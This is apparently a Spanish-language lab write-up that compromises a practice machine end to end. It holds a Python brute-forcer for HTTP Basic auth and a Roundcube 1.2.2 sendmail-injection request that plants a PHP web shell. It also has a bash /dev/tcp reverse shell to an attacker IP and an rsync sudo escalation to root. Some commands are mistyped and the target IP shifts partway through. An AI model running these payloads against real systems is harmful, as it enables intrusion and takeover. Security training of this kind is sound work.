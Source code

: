 1. Escaneo de puertos 
```
nmap -p- --open -sCS --min-rate 5000 -Pn -n -vvv 192.168.77.90 -oN nmap/openPorts
```
Impresión
```java
Discovered open port 80/tcp on 192.168.77.90
Discovered open port 993/tcp on 192.168.77.90
Discovered open port 143/tcp on 192.168.77.90
```

2. Ataque de fuerza bruta 
```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://192.168.77.90
```
Impresión 
```
/zmail                (Status: 401) [Size: 460]
```
**Nota:** Al colocar este directorio en la URL de la web, abre un apartado para registrarse, de este modo faltan usuarios potenciales y contraseña, pues los usuarios se encuentran por la cara en la primera pagina y de contraseñas el `rockyou`

3. Enviar credenciales incorrectas e interceptarlas con burpsuit 
4. Crear un script en Python como herramienta de fuerza bruta para probar contraseñas
```python
#!/usr/bin/python3
#Script para fuerza bruta a credenciales

import requests
import sys
import signal
import time
import pdb
#Codificación y decodificacion en base64
from base64 import b64encode
from base64 import b64decode
from pwn import *

#Ctrl + C
def def_handler(signal, frame):
	print("\n\n[!] Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

#Variable con la URL
main_url = "http://192.168.77.90/zmail"

#Function validar password con status code diferente a 401
def makeAuthentication(combination_b64, p1):
	combination_b64 = combination_b64.decode()
	#Estructura para la furaza bruta segun el burpsuit
	headers = {
		'Authorization': 'Basic %s' % combination_b64
	}
	#Petición por GET
	r = requests.get(main_url, headers=headers)
	if r.status_code != 401:
		p1.success("La contraseña correcta es: %s" % (b64decode(combination_b64)).decode())
		sys.exit(0)

def makeAuthorization():
	#Lista de usuarios potenciales
	users = ["deez1", "p48", "all2"]
	#Diccionario ROCKYOU.TXT
	f = open("/usr/share/wordlists/rockyou.txt", "rb")
	#Barra de progreso
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	time.sleep(2)
	counter = 1
	#Ciclo para cifrar el password en base64
	for password in f.readlines():
		password = (password.strip()).decode()
		#Estructura que debe tener admin:admin
		combination = users[1] + ':' + password
		#Mostrando barra de estado
		p1.status("Probando con la contraseña [%d/14344392]: %s" % (counter, combination.split(':')[1]))
		combination_b64 = b64encode(combination.encode())
		makeAuthentication(combination_b64, p1)
		counter += 1

#Function Main
if __name__ == '__main__':
	makeAuthorization()
```

5. De este modo se encuentra la contraseña `p48:electrico`, ingresar
6. Buscar la versión del  `roundcube` que se encuentra en el `About`
```

## Roundcube 1.2.2
```
Identificada la versión buscar una vulnerabilidad en `searchsploit`

7. Existe una vulnerabilidad de `Remote Code Execution`, descargarla. Según el script es posible enviar un correo, interceptarlo y editarlo los siguientes espacios
```
04731 <<< Subject: <?php phpinfo(); ?>
04731 <<< X-PHP-Originating-Script: 1000:rcube.php
04731 <<< MIME-Version: 1.0
04731 <<< Content-Type: text/plain; charset=US-ASCII;
04731 <<<  format=flowed
04731 <<< Content-Transfer-Encoding: 7bit
04731 <<< Date: So, 20 Nov 2016 04:02:52 +0100
04731 <<< From: example@example.com -OQueueDirectory=/tmp
```
**Nota:** Utilizar los espacios como '+' para evitar errores, de la siguiente manera.

8. Editar la petición interceptada por BurbSuit. Petición sin editar...
```c
_token=kcCVHIDxlZxdWNumpsajKbjtAoVe1q3j&_task=mail&_action=send&_id=50779226666e08a65a1727&_attachments=&_from=1&_to=hola%40hola.com&_cc=&_bcc=&_replyto=&_followupto=&_subject=hola&editorSelector=plain&_priority=0&_store_target=Sent&_draft_saveid=&_draft=&_is_html=0&_framed=1&_message=como+fue
```

9. Editar los campos `for=1` y `subject=h`, de la siguiente manera
```c
_token=kcCVHIDxlZxdWNumpsajKbjtAoVe1q3j&_task=mail&_action=send&_id=151308979966e08d658ea70&_attachments=&_from=hola@hola.com+-OQueueDirectory=/tmp+-X/var/www/html/rce.php&_to=hola%40hola.com&_cc=&_bcc=&_replyto=&_followupto=&_subject=<?php+system($_GET['cmd'])?>&editorSelector=plain&_priority=0&_store_target=Sent&_draft_saveid=&_draft=&_is_html=0&_framed=1&_message=comofue
```

10. Enviar la petición, luego habrá un archivo que acabamos de crear en la ruta `http://192.168.77.76/rce.php`. Para interactuar con la consola, hacemos `http://192.168.77.76/rce.php?cmd=whoami` 
11. Implementar una ReverShell 
```
bash -c "/bin/bash -i >& /dev/tcp/192.168.77.162/443 0>&1"
```
URLcode
```
http://192.168.77.76/rce.php?cmd=bash -c "/bin/bash -i >%26 /dev/tcp/192.168.77.162/443 0>%261"
```

12. Tratamiento de la TTI 
```
script /dev/null -c bash
Crl + z
$ stty raw -echo; fg
$ reset xterm
$ export SHEEL=bash
$ export TERM=xterm
```

13. Entrar con el usuario `p48` y buscar el archivo `~/preivkey.gpg`
14. Utilizando un desencriptador de contraseñas SSH web 
```
https://pgptool.org
```
- Buscar la opción de `Decrypt (+Verify)`
- Copiar y pegar la clave privada que se encuentra dentro del equipo de la maquina victima
- Copiar y pegar el mensaje privado que se encuentra al comienzo de la pagina web en un foro
- Utilizar como clave para descifrar `electrico`

**Nota:** Dentro del mensaje en el foro de la primera pagina dentro del servidor, habla sobre un `backup dentro de la misma red`, así que...

15. Crear una clave privada con el mensaje desencriptado 
```
nano id_rsa
chmod 600 id_rsa
```

16. Conocer la ip de la sub-red 
```
hostname -I
192.168.144.1 172.17.0.1 
```

La `172.17.0.1` es la red interna, por lo tanto una maquina desplegada dentro de la misma red seria `172.17.0.2` para comprobar que la sub-red existe se el envía un paquete
```
ping -c 1 172.17.0.2
```

17.  Con `ss -nlt` identificar que puestos están abiertos
```
LISTEN           0    128       172.17.0.1:22 
```
El puesto 22 en escucha

18. Utilizar la clave para conectarse al usuario `p48` por ssh
```
ssh -i id_rsa p48/172.17.0.2
```

19. Estando adentro utilizar el comando `sudo -l` para buscar binarios
```
(root) NOPASSWD: /usr/bin/rsync
```
Buscar en `GTFObins`
```
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```
